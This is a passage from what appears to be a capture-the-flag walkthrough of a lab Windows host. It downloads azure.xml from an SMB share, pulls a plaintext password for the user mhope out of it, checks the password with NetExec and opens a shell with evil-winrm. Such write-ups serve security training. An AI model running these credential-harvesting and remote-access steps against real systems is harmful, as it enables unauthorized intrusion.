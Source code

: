 ```shell
# ls
drw-rw-rw-          0  Fri Jan  3 08:12:48 2020 .
drw-rw-rw-          0  Fri Jan  3 08:12:48 2020 ..
drw-rw-rw-          0  Fri Jan  3 08:15:23 2020 dgalanos
drw-rw-rw-          0  Fri Jan  3 08:41:18 2020 mhope
drw-rw-rw-          0  Fri Jan  3 08:14:56 2020 roleary
drw-rw-rw-          0  Fri Jan  3 08:14:28 2020 smorgan
# cd mhope
# ls
drw-rw-rw-          0  Fri Jan  3 08:41:18 2020 .
drw-rw-rw-          0  Fri Jan  3 08:41:18 2020 ..
-rw-rw-rw-       1212  Fri Jan  3 09:59:24 2020 azure.xml
# mget azure.xml
[*] Downloading azure.xml
```
The azure.xml file contains the following:
```shell
cat azure.xml

��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
Since we found azure.xml in the folder of the user mhope, we can suppose that this is the password for that user, giving us the following credentials:
```shell
mhope:4n0therD4y@n0th3r$
```

But... where can we use that password?
# Foothold
## Testing Credentials using NetExec leading to Valid WinRM Credentials
We used the following NetExec commands to test the credentials on SMB and WinRM:
```shell
nxc smb 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$' --continue-on-success
nxc winrm 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$' --continue-on-success
```
Using impacket-psexec won't give us a shell, since the shares are not writeable. But using evil-winrm we can get shell access, thanks to the credentials being valid for WinRM:
```shell
evil-winrm -i 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$'
```
The above evil-winrm command successfully granted us shell access as the user mhope.
